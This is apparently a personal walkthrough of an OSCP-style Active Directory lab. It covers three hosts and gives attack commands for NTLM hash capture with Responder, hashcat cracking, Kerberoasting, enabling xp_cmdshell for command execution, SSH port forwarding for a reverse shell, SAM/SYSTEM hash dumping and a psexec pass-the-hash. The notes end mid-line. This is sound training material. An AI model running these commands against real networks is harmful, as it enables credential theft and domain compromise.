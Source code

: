 # 147
## Exploitation
- Add `192.168.x.147 ms01.oscp.exam` to `/etc/host`.
- Then, upon visiting the website at port 8080, one can identify a  form with interesting field called `Url`.
	- Set up `responder` with `responder -I tun0 -A` and fill in the UNC path at `Url` field. Finally, submit the form and `responder` will receive a authentication request along with `Net-NTLMv2` hash of the user `oscp\web_svc`.![[Pasted image 20240217160845.png]]![[Pasted image 20240217162012.png]]
- Run `hashcat -m 5600 web_svc.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` to retrieve plaintext password as `Diamond1`.![[Pasted image 20240217161322.png]]
# 148
## Exploitation
- Kerberoast the `sql_svc` User and find out the password to be `Dolphin1`. ![[Pasted image 20240217183017.png]]
- User `proxychains impacket-mssqlclient sql_svc:Dolphin1@10.10.116.148 -windows-auth` to obtain a SQL shell. Run the following to enable `RCE` since we are system administrator.
	```mssql
	EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
	```
- Set up remote port-forwarding in order to catch reverse shell.
	```bash
	ssh -v -N -R 10.10.116.147:4080:192.168.45.229:80 web_svc@192.168.226.147
	ssh -v -N -R 10.10.116.147:4443:192.168.45.229:443 web_svc@192.168.226.147
	```
- With reverse shell, find `windows.old` file under the `C:\` directory. From `C:\windows.old\Windows\System32` retrieve `SAM` and `SYSTEM` file.
	- Run `impacket-secretsdump -sam SAM -system SYSTEM LOCAL` to locate `NTLM` hash for `tom_admin![[Pasted image 20240217184230.png]]
# 146
- Using `tom_admin`'s hash to get a `psexec` shell on `DC`. Run ``